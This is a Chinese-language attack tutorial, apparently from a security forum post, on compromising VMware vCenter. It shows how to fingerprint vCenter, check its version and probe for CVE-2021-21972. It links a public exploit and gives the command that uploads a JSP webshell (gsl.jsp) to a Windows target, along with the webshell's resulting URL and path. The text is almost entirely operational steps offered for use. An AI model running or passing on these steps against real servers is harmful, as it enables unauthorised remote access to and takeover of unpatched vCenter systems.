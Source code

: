 0x01 指纹特征
=========

```php
title="+ ID_VC_Welcome +"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-45ce5cec25a6cb4322a561fe2c04136bae411055.png)

0x02 查看Vcenter版本
================

```php
/sdk/vimServiceVersions.xml
```

![image-20220902150355359.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-02419232508a0922d3d8547ae163c292ac8da5c9.png)

0x03 CVE-2021-21972
===================

影响范围

- vCenter Server7.0 &lt; 7.0.U1c
- vCenter Server6.7 &lt; 6.7.U3l
- vCenter Server6.5 &lt; 6.5.U3n

```php
/ui/vropspluginui/rest/services/uploadova
```

访问上面的路径，如果404，则代表不存在漏洞，如果405 则可能存在漏洞

![image-20220724170308995.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a4f311259bf1fcf71d02eec1188ccfbf13e7f350.png)  
windows机器：

漏洞利用： <https://github.com/horizon3ai/CVE-2021-21972>

```xml
python CVE-2021-21972.py -t x.x.x.x -p ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport\gsl.jsp -o win -f gsl.jsp

-t （目标地址）
-f （上传的文件）
-p （上传后的webshell路径，默认不用改）
```

![image-20220724170308995.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a70674a467b5e1af4084303d0ee2018cbd8d9e53.png)  
上传后的路径为

```php
https://x.x.x.x/statsreport/gsl.jsp
```

完整路径为

```php
C:/ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport
```
